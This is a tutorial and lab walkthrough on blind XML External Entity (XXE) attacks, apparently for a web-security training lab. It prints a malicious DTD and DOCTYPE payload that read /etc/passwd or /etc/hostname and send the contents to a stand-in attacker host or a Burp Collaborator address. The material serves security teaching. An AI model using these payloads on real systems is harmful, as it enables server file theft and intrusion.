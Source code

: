 # Exploiting XXE to Extract Files, Perform SSRF, and Handle Blind XXE 🚨

XXE (XML External Entity) is a vulnerability that allows attackers to extract files from a server, perform SSRF attacks, and exploit "blind" XXE vulnerabilities. This guide covers all these scenarios with detailed examples. 💡

---

Using Blind XXE to Exfiltrate Data Out-of-Band

Detecting a blind XXE vulnerability using out-of-band methods is useful, but it doesn’t demonstrate how the vulnerability can be exploited to extract data. An attacker can leverage a malicious DTD hosted on their system and invoke it through an XXE payload to exfiltrate data.

### Example of a Malicious DTD

A malicious DTD to extract the contents of the `/etc/passwd` file might look like this:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD performs the following steps:

1. Defines a parameter entity `file` containing the contents of the `/etc/passwd` file.
2. Defines an entity `eval` that declares a dynamic entity `exfiltrate`. This entity sends the file contents to the attacker's server via an HTTP request.
3. Uses the `eval` entity to declare `exfiltrate`.
4. Invokes `exfiltrate`, sending the file data to the attacker’s server.

### Execution Steps

1. **Hosting the Malicious DTD**: The attacker hosts the malicious DTD on their server, for example, at:
   ```
   http://web-attacker.com/malicious.dtd
   ```

2. **Sending the Payload**: The attacker sends the following XXE payload to the application:
   ```xml
   <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
   ```
   This payload instructs the XML parser to fetch the DTD from the attacker's server and execute its content.

3. **Exfiltrating Data**: The execution of the DTD results in the contents of `/etc/passwd` being sent to the attacker’s server.

### Limitations of the Method

Some XML parsers may block newline characters found in `/etc/passwd`. In such cases, files without newlines, like `/etc/hostname`, can be targeted instead. Alternatively, the FTP protocol can sometimes be used instead of HTTP.

---

## Example Lab Exercise

In this lab, the "Check Stock" function processes XML input data but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

### Steps to Execute

### 1. Select a Product
Open the product list and choose any item:

![Product List](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

### 2. Click the Button
On the product page, click the **"Check Stock"** button after enabling a proxy tool (e.g., Burp Suite):

![Check Stock Button](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

### 3. Prepare the DTD
Create a malicious DTD using your Burp Collaborator subdomain:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://YOUR-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfiltrate;
```

Host this file on your server.

![Creating the Malicious DTD](https://github.com/user-attachments/assets/2d285da5-b706-498d-b9d1-b063b2144334)

---

### 4. Intercept the Request
Navigate to **Proxy → HTTP History**, select the POST request to `/product/stock`, and send it to **Repeater**:

![POST Request](https://github.com/user-attachments/assets/1ec0f44b-554a-44e4-ad05-c76a4c4857a8)

---

### 5. Insert the Payload
Add the following external entity definition between the XML declaration and the `stockCheck` element:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

![Inserting the Payload](https://github.com/user-attachments/assets/8d98ee3a-4293-4d50-8625-7b0f8f900f60)

---

### 6. Check Collaborator
Go to the **Collaborator** tab and click **"Poll now"**. If no interactions are listed, wait a few seconds and try again. You should see DNS and HTTP interactions initiated by the application as a result of your payload.

![Checking Interactions](https://github.com/user-attachments/assets/95a9db28-ab4b-4259-8e06-871d778d7741)

---

## Helpful Tips 🔍

- **Test each XML node** for potential entity injection.
- **Use proxy tools** (e.g., Burp Suite) to analyze and modify requests.
- **Iterate your actions**: from inserting entities to validating results in Collaborator.

